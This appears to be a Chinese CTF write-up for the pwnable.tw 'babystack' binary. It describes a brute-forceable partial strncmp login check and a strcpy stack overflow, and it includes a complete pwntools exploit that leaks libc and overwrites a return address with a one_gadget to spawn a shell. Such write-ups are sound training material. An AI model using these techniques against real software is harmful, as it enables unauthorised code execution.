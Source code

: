 ## baby stack wp

### 题目分析

可以login，login之后可以从标准输入读入一段字符串，然后copy到栈中的buffer中。

### 漏洞分析

- 登陆漏洞

  密码是程序自动生成的一段随机数，在进行密码验证时是按照你输入的"密码"的长度来进行strcmp,那就意味着如果你只输入一个字节的密码，他也只会比较一个字节的密码，如果一个一个字节的试就可以将密码爆破出来。

  ```c
  int __fastcall sub_DEF(const char *a1)
  {
    size_t v1; // rax
    char s[128]; // [rsp+10h] [rbp-80h] BYREF 用来布局栈帧
  
    printf("Your passowrd :");
    readn((unsigned __int8 *)s, 0x7Fu);
    v1 = strlen(s);//长度是由你自己来规定
    if ( strncmp(s, a1, v1) )
      return puts("Failed !");
    flag = 1;
    return puts("Login Success !");
  }
  ```

- copy漏洞

  在copy的时候从标准输入读取的内容没有进行'\x00'的截断，另外copy的buffer和login的密码的buffer是同一块内存区域，这就意味着，可以在登陆时通过输入密码布局栈帧之后再通过copy，来进行栈溢出。（copy的dest只用0x64个字节）

  ```c
  int __fastcall sub_E76(char *a1)
  {
    char src[128]; // [rsp+10h] [rbp-80h] BYREF
  
    printf("Copy :");
    readn(src, 63LL);
    strcpy(a1, src);
    return puts("It is magic copy !");
  }
  ```

  

#### 漏洞利用

先通过登录漏洞将随机数密码爆破出来，以后要用。

输入'\x00'进行登陆，在登陆时布局栈帧，保证在copy时可以将栈中的libc地址copy到密码的buffer里。

```c
 _QWORD *v3; // rcx
  __int64 v4; // rdx
  char v6[64]; // [rsp+0h] [rbp-60h] BYREF 			v6下面就是密码buffer
  __int64 random_num[2]; // [rsp+40h] [rbp-20h] BYREF
  char buffer[16]; // [rsp+50h] [rbp-10h] BYREF
```

然后通过爆破将libc地址拿到。

拿到libc地址之后的下一次登录再次布置栈帧，这次要达到的效果是：将密码还原，然后在main函数的返回地址的地方填上one_gadget。

这次copy之后就可以绕过退出的时候对于原密码的检测，然后执行ret拿到shell。

### EXP：

```python
#coding=utf-8
from pwn import *
local = 1
exec_file="./babystack"
context.binary=exec_file
context.terminal=["tmux","splitw","-h"]
elf=ELF(exec_file,checksec = True)
argv=["/home/jlx/glibc-all-in-one/libs/2.23-0ubuntu11.2_amd64/ld-2.23.so",
            "--library-path","/home/jlx/glibc-all-in-one/libs/2.23-0ubuntu11.2_amd64/","./babystack"]
if local :
    a=process(argv = argv)
    if context.arch == "i386" :
        libc=ELF("/home/jlx/glibc-all-in-one/libs/2.23-0ubuntu11.2_amd64/libc-2.23.so",checksec = False)
    elif context.arch == "amd64" :
        libc=ELF("/home/jlx/glibc-all-in-one/libs/2.23-0ubuntu11.2_amd64/libc-2.23.so",checksec = False) 
else:
    a=remote("chall.pwnable.tw",10205)
    libc=ELF("./libc.so.6")
def get_base(a):
    text_base = a.libs()[a._cwd+"/babystack"]
    print hex(text_base)
    for key in a.libs():
        if "libc-2.23.so" in key:
            return text_base,a.libs()[key]
def debug():
    text_base,libc_base=get_base(a)
    script="set $text_base="+str(text_base)+'\n'+"set $libc_base="+str(libc_base)+'\n'
    script+='''
    b * %d
    '''%(text_base + 0x00001052)
    gdb.attach(a,script)
def fuck(address):
    n = globals()
    for key,value in n.items():
        if value == address:
            return success(key+"  ==>  "+hex(address))
def menu(idx):
    a.sendafter(">> ",str(idx))
def login(password):
    menu(1)
    a.sendafter("Your passowrd :",password )
    return 
def logout():
    menu(1)
    return

def copy(content):
    menu(3)
    a.sendafter("Copy :",content)
    return 
    
def edit(idx,content):
    return 
    
def show(idx):
    return 
relloc_offset = [0,2,4,6,0xb,0xc,0x10]
#payload='\x00'*0x33+p64(0x00000000fbad1800)+p64(0)*3+'\x00'    #stdout-0x33 IO_FILE

#debug()

def baopo(init_pwd, length):
    for i in range(length): 
        for j in range(1,256):
            login(init_pwd + chr(j) + '\x00')
            if a.recvline(keepends= False) == "Login Success !":
                init_pwd += chr(j)
                print "the %d character is "%(i) + hex(j)
                logout()
                break
    return init_pwd

password = baopo("",16)

print "password =====>" + hex(u64(password[0:8])) +hex(u64(password[8:16]))

payload = password + '\x00'
payload = payload.ljust(88,'a')
login(payload)
#debug()
payload = 'a' * 63
copy(payload)

#context.log_level = "debug"

logout()
libc_addr = u64(baopo(('a'*16+'1'+'a'*7), 6)[-6:] + 2*'\x00') - libc.sym["setvbuf"] - 324
fuck(libc_addr)


payload = '\x00' + 'a' * 7
payload += 'a' * 56 + password
payload = payload.ljust(0x68,'a')
payload += p64(libc_addr + 0xf1207) + '\x00'

print len(payload)
login(payload)
debug()
payload = 'a' * 63
copy(payload) 

menu(2)

a.interactive()
```


